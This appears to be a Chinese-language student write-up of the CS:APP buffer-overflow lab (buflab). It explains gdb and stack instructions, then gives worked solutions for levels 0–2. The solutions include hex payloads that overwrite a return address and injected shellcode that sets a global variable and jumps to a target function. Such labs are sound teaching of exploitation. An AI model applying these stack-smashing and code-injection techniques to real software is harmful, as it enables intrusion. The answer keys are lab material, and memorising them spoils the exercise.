







- LAB4-buflab

# 基本操作&小知识

* 设置用户名
```bash
$ ./markdown Lancer
> 0x17dab4ef
```

* 十六进制转ASCII码
```bash
$ ./hex2raw < exploit.txt > exploit-raw.txt
```

* 答案放在文件中运行bufbomb
```bash
$ ./bufbomb -u Lancer < exploit-raw.txt
```

* gdb x指令用法
格式：`x/<n/f/u>  <addr>`
n:是正整数，表示需要显示的内存单元的个数，即从当前地址向后显示n个内存单元的内容，一个内存单元的大小由第三个参数u定义。  
f:表示addr指向的内存内容的输出格式，s对应输出字符串，此处需特别注意输出整型数据的格式：  
x 按十六进制格式显示变量。  
d 按十进制格式显示变量。  
u 按十六进制格式显示无符号整型。  
o 按八进制格式显示变量。  
t 按二进制格式显示变量。  
a 按十六进制格式显示变量。  
c 按字符格式显示变量。  
f 按浮点数格式显示变量。  
u:就是指以多少个字节作为一个内存单元-unit,默认为4。当然u还可以用被一些字符表示，如b=1 byte, h=2 bytes,w=4 bytes,g=8 bytes。  
`<addr>`:表示内存地址。  


* push、pop、call、leave、ret
    * push: 栈指针先向下移，后复制到栈
    等价于
    ```assembly
    subl    $4, %esp
    movl    %ebp (%esp)
    ```
    * pop: 先取出数据，后栈指针向上移
    等价于
    ```assembly
    movl    (%esp), %ead
    addl    $4, %esp
    ```
    * call: 将返回地址（下一条指令的ip）压入栈，后跳转
    等价于
    ```assembly
    push    %eip
    jmp     08049262 <func>
    ```
    * leave: 将栈指针指向帧指针，后pop备份的原指针到%ebp
    等价于
    ```assembly
    mov     %ebp, %esp
    pop     %ebp
    ```
    * ret: 把原先压入栈的ip内容进行出栈，并送入ip中
    等价于
    ```assembly
    pop     ip      # 实际上不存在这样的指令，只是方便记忆
    ```

# 解题

## level0
```c
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval();

    val = getbuf();     // 关键在这一行，怎么让getbuf()缓冲区溢出跳转到smoke()函数

    /* Check for corrupted stack */
    if (local != uniqueval()) {
        printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie) {
        printf("Boom!: getbuf returned 0x%x\n", val);
        validate(3);
    } else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
    }
```

```assembly
08049262 <getbuf>:
getbuf():
 8049262:	55                   	push   %ebp
 8049263:	89 e5                	mov    %esp,%ebp
 8049265:	83 ec 38             	sub    $0x38,%esp
 8049268:	8d 45 d8             	lea    -0x28(%ebp),%eax		# 缓冲区大小为0x28（40）
 804926b:	89 04 24             	mov    %eax,(%esp)
 804926e:	e8 bf f9 ff ff       	call   8048c32 <Gets>
 8049273:	b8 01 00 00 00       	mov    $0x1,%eax            # <- 执行到这里的栈
```

```assembly
 8049278:	c9                   	leave  
 8049279:	c3                   	ret                         # <- 执行到这里时
```


所以，要想跳转到`08048e0a <smoke>`，要先垫40 + 4 = 44字节，接下来的4个字节存要跳转的地址。  
因为采用的小端法，所以跳转地址还得反着写。  
还有一点值得注意，0a对应的ASCII码是`\n`换行，所以不能填。这里我们填`0a`的下一个数`0b`。  
答案如下，当然得用`./hex2raw`转换后才能用啦。
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 0b 8e 04 08     /* 45 ~ 48 跳转 */
```


## level1
```c
void fizz(int val){
    if (val == cookie) {        // val是？ cookie又是？
        printf("Fizz!: You called fizz(0x%x)\n", val);
        validate(1);
    } else
        printf("Misfire: You called fizz(0x%x)\n", val);
    exit(0);
}
```
```assembly
08048daf <fizz>:
fizz():
 8048daf:	55                   	push   %ebp
 8048db0:	89 e5                	mov    %esp,%ebp
 8048db2:	83 ec 18             	sub    $0x18,%esp
 8048db5:	8b 45 08             	mov    0x8(%ebp),%eax				# 0x8(%ebp)这个位置对应的输入的字符串的第52个字符
 8048db8:	3b 05 04 d1 04 08    	cmp    0x804d104,%eax				# 0x804d104存的cookie
 8048dbe:	75 26                	jne    8048de6 <fizz+0x37>
```
这题思路与上一题一样，首先从test()函数跳转到fizz()函数`08048daf <fizz>`。  
根据上面的代码，我们要让`val == cookie`。  
其中`val`对应的汇编代码里的`%eax`，而`%eax`又对应的输入的字符串的第52 ~ 55个字符。  
而`cookie`对应的汇编代码里的`0x804d104`，这个地址正是存的`cookie`。  
我设置的用户名Lancer对应的`cookie`是`0x17dab4ef`，填进去即可。  
（你问我为什么知道是第52 ~ 55个字符，我只能说这系列实验不仅考察看汇编代码的能力，还考察gdb调试的能力）  
答案如下，按顺序填补空缺，方便调试。
```
00 01 02 03 04 05 06 07
08 09 10 11 12 13 14 15
16 17 18 19 20 21 22 23
24 25 26 27 28 29 30 31
32 33 34 35 36 37 38 39
40 41 42 43 af 8d 04 08     /* 44 ~ 47 跳转 */
48 49 50 51 ef b4 da 17     /* 52 ~ 55 cookie */
56 57 58 59 60 61 62 63
```


## level2
```c
int global_value = 0;

void bang(int val){
    if (global_value == cookie) {           // global_value是？
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    } else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```
```assmebly
08048d52 <bang>:
bang():
 8048d52:	55                   	push   %ebp
 8048d53:	89 e5                	mov    %esp,%ebp
 8048d55:	83 ec 18             	sub    $0x18,%esp
 8048d58:	a1 0c d1 04 08       	mov    0x804d10c,%eax			# 0x804d10c是global_value
 8048d5d:	3b 05 04 d1 04 08    	cmp    0x804d104,%eax			# 0x804d104是cookie
 8048d63:	75 26                	jne    8048d8b <bang+0x39>
```
这一题要求`global_value == cookie`。  
然而`global_value`的地址在`0x804d10c`，输入的字符串的首地址在`0x556835e8`，肯定不能直接垫到那里。  
这时可以考虑在输入的字符串内写一小块汇编代码，然后在执行getbuf()的ret时跳到我们写的代码那里。  

代码中则执行将`cookie`也就是`0x17dab4ef`写到`global_value`的地址`0x804d10c`。  
然后通过`push`和`ret`配合再跳转到bang()函数的位置`0x8048d52`。  

这样就能实现将`global_value`的值替换为`cookie`。  
汇编代码如下: 
```assembly
.code32
.section .data
.section .text
.globl _start
_start:
    movl $0x17dab4ef,0x804d10c       # 0x17dab4ef是我的cookie，0x804d10c存的global_value
    push $0x08048d52                 # 0x08048d52是bang()函数的地址
    ret
```
先将该.s文件编译为可执行的二进制文件: 
```bash
$ as --32 set_global_value.s -o set_global_value.o
```
再将可执行文件反汇编为汇编代码: 
```bash
$ objdump set_global_value.o
```
最终得到的汇编代码为: 
```assembly
00000000 <_start>:
   0:   c7 05 0c d1 04 08 ef    movl   $0x17dab4ef,0x804d10c
   7:   b4 da 17 
   a:   68 52 8d 04 08          push   $0x8048d52
   f:   c3                      ret 
```
将汇编代码对应的十六进制表示写入答案: 
```
c7 05 0c d1 04 08 ef b4     /* movl   $0x17dab4ef,0x804d10c */
da 17 68 52 8d 04 08 c3     /* push   $0x8048d52 */
16 17 18 19 20 21 22 23     /* ret */
24 25 26 27 28 29 30 31
32 33 34 35 36 37 38 39
40 41 42 43 e8 35 68 55     /* 44 ~ 47 跳转 */
48 49 50 51 52 53 54 55
56 57 58 59 60 61 62 63
```
